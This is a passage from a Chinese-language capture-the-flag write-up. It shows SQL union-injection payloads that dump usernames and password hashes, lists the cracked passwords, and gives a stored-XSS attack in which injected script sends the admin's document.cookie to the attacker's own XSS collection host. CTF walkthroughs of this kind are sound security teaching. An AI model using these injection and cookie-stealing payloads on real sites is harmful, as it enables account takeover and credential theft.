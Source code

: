 后来脑洞了一下猜到表名是 users ,  

然后根据初始登录页面的name猜到字段名分别是 login 和 password



```
firstname='union select/*&amp;lastname=*/login/*&amp;position=*/,2,3,4,5,6 /*#&amp;country=*/from users#123&amp;gender=
firstname='union select/*&amp;lastname=*/password/*&amp;position=*/,2,3,4,5,6 /*#&amp;country=*/from users#123&amp;gender=
```

得到三个用户名和三个md5的密码值,MD5解密之后登陆就拿到flag了



```
#三个用户名
ruleradmin
patrick
raoul
#三个密码
04fc95a5debc7474a84fad9c50a1035d #smart1985
db6eab0550da4b056d1a33ba2e8ced66 #1badgurl
7ac89e3c1f1a71ee19374d7e8912714b #1badboy
```

[![](./img/85852/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01bb5ab35b6193197a.png)

<br>

**Purple Posse Market**

进去之后研究半天,发现有一个contact页面可以提交一些东西,然后其他好像也没有太多用,题目描述让拿到管理员的IBAN账户。那多半是xss拿到cookie登陆后台了,然后在评论这里尝试提交,发现根本没有过滤,下面代码直接就能返回。

```
&lt;script src="http://你的xss平台"&gt;&lt;/script&gt;
```

回到题目，既然没有过滤，那么直接执行js就好了，提交如下：

```
&lt;script src="http://你的网址/requests.js"&gt;&lt;/script&gt;
```

然后这个 request.js 这样写的

```
$.get("http://你的xss平台?a="+document.cookie,function(data,status){})
```

截图如下:

[![](./img/85852/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0193234f648d0a4847.png)

登陆进去就能看到IBAN账户,这就是flag了。

<br>

**WhyUNoKnock**
